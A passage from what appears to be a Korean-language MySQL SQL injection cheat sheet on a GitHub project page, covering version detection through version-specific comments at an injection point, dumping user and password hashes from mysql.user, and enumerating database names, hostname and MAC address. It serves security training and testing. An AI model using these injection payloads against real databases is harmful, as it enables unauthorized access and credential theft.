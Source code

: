 `/*!버전 특정 코드*/`<br><br>

예 :<br>
`주어진 쿼리 SELECT * FROM Users limit 1,{INJECTION POINT};`<br><br>

`1 /*!50094eaea*/; 거짓 - 버전이 5.00.94 이상임.`<br>
`1 /*!50096eaea*/; 참 - 버전이 5.00.96 보다 작음.`<br>
`1 /*!50095eaea*/; 거짓 - 버전이 5.00.95 와 같음.`<br><br>

노트 :<br>
주입 위치로 인해 더 이상 SQL 쿼리에 추가할 수 없는 상황에서 버전을 판별하는 데 유용할 수 있음.<br>
MySQL 특정 코드에 대한 자세한 내용은 아래 ( 19 ) MySQL 특정 코드 부분을 참조 바람.<br><br><br>



## (5) 데이터베이스 자격 증명
<br>
![스크린샷 2024-04-17 오후 2 11 30](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/e5b243ae-9d8b-4832-a736-686d08842495)<br><br>


예 :<br>
`SELECT current_user;<br>
SELECT CONCAT_WS(0x3A, user, password) FROM mysql.user WHERE user = 'root'-- (Privileged)`<br><br><br>



## (6) 데이터베이스 이름
<br>
![스크린샷 2024-04-17 오후 2 13 29](https://github.com/ICTIS-Cert-System-Project/ICTIS-Cert-System/assets/18510716/e9f4c5b6-d7d0-44c9-b63b-140980ec3b29)<br><br>

예 :<br>
`SELECT database();<br>
SELECT schema_name FROM information_schema.schemata;<br>
SELECT DISTINCT(db) FROM mysql.db;-- (Privileged)`<br><br><br>



## (7) 서버 호스트 이름

@@HOSTNAME<br><br>

예 :<br>
`SELECT @@hostname;`<br><br><br>



## (8) 서버 MAC 주소

Universally Unique Identifier는 인터페이스 MAC 주소에서 마지막 12 자리 숫자가 형성된 128 비트 숫자임.<br><br>

UUID()<br><br>

예 :<br>
`aaaaaaaa-bbbb-cccc-dddd-eeeeeeeeeeee;`<br><br>
